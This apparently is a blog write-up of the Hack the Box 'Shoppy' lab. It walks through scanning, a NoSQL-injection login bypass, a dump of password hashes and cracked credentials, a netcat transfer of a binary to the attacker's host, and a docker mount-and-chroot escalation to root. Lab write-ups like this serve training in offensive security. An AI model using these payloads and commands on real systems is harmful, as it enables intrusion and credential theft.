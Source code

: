 ```yaml
---
layout: post
title:  Hack the Box pentest Shoppy
image: /assets/img/HTB-Logo.png
date:   2023-01-12 15:49:01
tags:
- pentest
description: Basic pentest challenge
categories:
- Hack The Box
- Pentest
---
```


![](/assets/img/2023-01-12-15-04-47.png)


Run nmap on the IP we get 2 ports open, port 80 and port 22 for SSH:

```
# Nmap 7.93 scan initiated Thu Jan 12 05:45:47 2023 as: nmap -sV -Pn -oN nmap.out 10.10.11.180
Nmap scan report for 10.10.11.180
Host is up (0.028s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 12 05:46:02 2023 -- 1 IP address (1 host up) scanned in 15.07 seconds
```

The first page looks like:

![](/assets/img/2023-01-12-14-21-04.png)

We run gobuster on the server and see a logon portal.

```
└─$ gobuster dir -w /home/kali/Desktop/stuff/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://shoppy.htb 
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/Desktop/stuff/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/01/12 05:48:47 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 302) [Size: 28] [--> /login]
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/js                   (Status: 301) [Size: 171] [--> /js/]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
Progress: 114441 / 114442 (100.00%)
===============================================================
2023/01/12 06:03:01 Finished
===============================================================
```

After trying the following github repos of SQL injections:

https://github.com/payloadbox/sql-injection-payload-list
https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/NoSQL%20Injection/Intruder/NoSQL.txt
https://github.com/DevanshRaghav75/NoSQL_injection_stuff
https://book.hacktricks.xyz/pentesting-web/nosql-injection


I discovered that the following request worked:

```
POST /login?error=WrongCredentials HTTP/1.1

Host: shoppy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://shoppy.htb
Connection: close
Referer: http://shoppy.htb/login?error=WrongCredentials
Upgrade-Insecure-Requests: 1


username=admin'||' &password=admin
```
After logging in you have to work the search to discover another user:


Searching for `' || '1==1` will give you 2 accounts admin and josh. 

You cannot break the hash for admin, but for josh you can find it online:

```
0	
_id	"62db0e93d6d6a999a66ee67a"
username	"admin"
password	"23c6877d9e2b564ef8b32c3a23de27b2"
1	
_id	"62db0e93d6d6a999a66ee67b"
username	"josh"
password	"6ebcea65320589ca4f2f1ce039975995"
```
remembermethisway is the pass jor josh .

Next you need to do recon again, because we missed a subdomain.

`ffuf -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" -w /home/kali/Desktop/stuff/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt --fs 169 `

where fs is the size of the bad response.

Afterwards we can discover a password in the mattermost channel:

![](/assets/img/2023-01-12-14-43-49.png)

Using ssh we logon to the page and run linpeas.

We see that we can execute an executable as user deploy:

![](/assets/img/2023-01-12-14-45-28.png)

Afterwards we download the executable using nc `nc -w 3 10.10.14.77 8888 < /home/deploy/password-manager` .

We reverse engineer/ just cat the binary and get Sample as the password:

![](/assets/img/2023-01-12-14-47-39.png)

After getting the other user password which is granted by the manager upon entering Sample 

```
(Deploy Creds :
username: deploy
password: Deploying@pp!
)
```

We switch users, and look for a way to gain root. We run linpeas again, and look at the thing that we are in a docker container.

We run deepce and it gives us 2 leads.


![](/assets/img/2023-01-12-14-49-51.png)

The easiest for me was running `docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/bash` and this makes us root.

Last flag:


`ebb276b6cfee6bc206ffbf73797e937f`


